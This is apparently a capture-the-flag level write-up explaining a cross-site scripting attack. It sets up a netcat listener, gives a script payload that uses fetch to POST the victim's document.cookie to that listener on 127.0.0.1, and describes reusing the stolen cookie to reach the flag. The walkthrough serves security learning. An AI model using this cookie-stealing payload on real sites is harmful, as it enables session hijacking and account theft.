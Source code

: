 This level requires us to create an XSS payload that would make the user send their cookie to a `netcat` server listening on a certain port.

First, we'll need to setup a `netcat` server that would listen for the cookie.

```bash
nc -lvp 12345
```

Next, we'll need to craft an XSS payload that would send the cookie to our `netcat` server. To do this, we can use the `fetch` API along with the POST request, as the POST request allows us to specify the content, which can contain the cookie.

```html
<script>fetch("http://127.0.0.1:12345", {method:"POST",body:document.cookie})</script>
```

When the victim accesses the website, this script will make a request to the server with the cookie being sent in the content of the request. Once we've received the user's cookie in the `netcat` server, we can replace our cookie with the user's cookie and access the flag.